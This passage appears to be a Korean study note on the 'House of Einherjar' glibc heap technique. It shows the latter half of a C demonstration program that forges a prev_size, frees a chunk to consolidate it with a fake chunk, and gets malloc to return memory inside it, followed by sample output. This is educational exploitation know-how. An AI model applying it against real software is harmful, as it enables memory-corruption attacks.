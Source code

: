 ```c
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "This is easiest if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");
    fprintf(stderr, "If it had been modified, we would need a fake chunk inside "
           "b where it will try to consolidate the next chunk\n");

    // Write a fake prev_size to the end of a
    fprintf(stderr, "\nWe write a fake prev_size to the last %lu bytes of a so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;

    //Change the fake chunk's size to reflect b's new prev_size
    fprintf(stderr, "\nModify fake chunk's size to reflect b's new prev_size\n");
    fake_chunk[1] = fake_size;

    // free b and it will consolidate with our fake chunk
    fprintf(stderr, "Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    //if we allocate another chunk before we free b we will need to 
    //do two things: 
    //1) We will need to adjust the size of our fake chunk so that
    //fake_chunk + fake_chunk's size points to an area we control
    //2) we will need to write the size of our fake chunk
    //at the location we control. 
    //After doing these two things, when unlink gets called, our fake chunk will
    //pass the size(P) == prev_size(next_chunk(P)) test. 
    //otherwise we need to make sure that our fake chunk is up against the
    //wilderness

    fprintf(stderr, "\nNow we can call malloc() and it will begin in our fake chunk\n");
    d = malloc(0x200);
    fprintf(stderr, "Next malloc(0x200) is at %p\n", d);
}
```

* a에 malloc(0x38) 할당

```
Welcome to House of Einherjar!
Tested in Ubuntu 16.04 64bit.
This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.

We allocate 0x38 bytes for 'a'
a: 0x603010
Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: 0x38
```
